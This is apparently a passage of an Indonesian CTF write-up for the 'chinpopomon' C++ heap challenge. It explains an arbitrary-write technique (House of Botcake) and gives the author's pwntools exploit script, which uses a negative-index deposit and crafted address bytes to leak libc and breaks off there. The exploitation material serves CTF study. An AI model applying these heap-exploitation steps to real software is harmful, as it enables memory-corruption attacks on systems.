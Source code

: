 ```cpp
		this->speak();

	}
	void speak()	{
		cout << this->nickname << ", " << this->nickname << "!" << endl;
	}
};


...
...
...

for (int i = 0; i < pc.size(); ++i)
	delete pc[i];	// Prevent memory leaks
```

Dengan ilmu ini, kita dapat menyalahgunakan atribut string pada class ChinPoPomon untuk menulis ke alamat manapun, dengan teknik seperti [House of Botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.31/house_of_botcake.c).

Berikut exploit saya sendiri:

```py
from pwn import *
import codecs

p = process('./chinpopomon')


def set_name(name):
	p.sendlineafter("name?", name)

def create(type_num, nickname):
	p.sendlineafter("Choice:", '1')
	p.sendlineafter("Choice:", str(type_num))
	p.sendlineafter("Name: ", nickname)

def enter_pc():
	p.sendlineafter("Choice:", '2')

def exit_pc():
	p.sendlineafter("Choice:", '4')

def restart_game():
	p.sendlineafter("Choice:", '3')

def deposit(index):
	p.sendlineafter("PC Choice:", '1')
	p.sendlineafter("index:", str(index))

def withdraw(index):
	p.sendlineafter("PC Choice:", '2')
	p.sendlineafter("index:", str(index))

def view_stats(index):
	p.sendlineafter("PC Choice:", '3')
	p.sendlineafter("index:", str(index))


# Get libc leak
set_name(p64(0x4072d8) + p64(0x407280)[:-1])
enter_pc()
deposit(-2)
```